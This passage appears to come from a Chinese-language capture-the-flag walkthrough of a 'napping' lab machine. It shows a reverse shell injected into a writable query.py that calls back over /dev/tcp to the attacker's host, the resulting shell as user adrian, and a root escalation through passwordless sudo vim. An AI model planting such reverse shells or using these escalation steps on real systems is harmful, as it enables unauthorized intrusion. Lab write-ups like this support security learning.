5. 我们拥有修改`query.py` 的权限，那就是拥有adrian用户的权限了
    - 修改`query.py` ,在顶部添加
        
        ```python
        import os;
        os.system("bash -c 'bash -i >& /dev/tcp/192.168.56.10/1234 0>&1'");
        ```
        
        同时开启监听
        
    - 等待执行
        
        ```python
        nc -lvp 1234                        
        listening on [any] 1234 ...
        192.168.56.3: inverse host lookup failed: Unknown host
        connect to [192.168.56.10] from (UNKNOWN) [192.168.56.3] 43506
        bash: cannot set terminal process group (3289): Inappropriate ioctl for device
        bash: no job control in this shell
        adrian@napping:~$
        ```
        
        获得用户`adrian`的`shell`
        
6. 查找敏感文件
    - 第一个flag文件
        
        ```python
        adrian@napping:~$ cat user.txt
        You are nearly there!
        ```
        
    - `sudo -l` ，K.O.
        
        ```python
        adrian@napping:~$ sudo -l
        Matching Defaults entries for adrian on napping:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
        
        User adrian may run the following commands on napping:
            (root) NOPASSWD: /usr/bin/vim
        adrian@napping:~$ 
        ```
        
7. `vim`可以免密码以`root`账号执行，故可以提权
    
    ```python
    adrian@napping:~$ sudo vim
    ```
    
    然后在命令行模式下输入`!/bin/bash`
    
    ```python
    :!/bin/bash
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    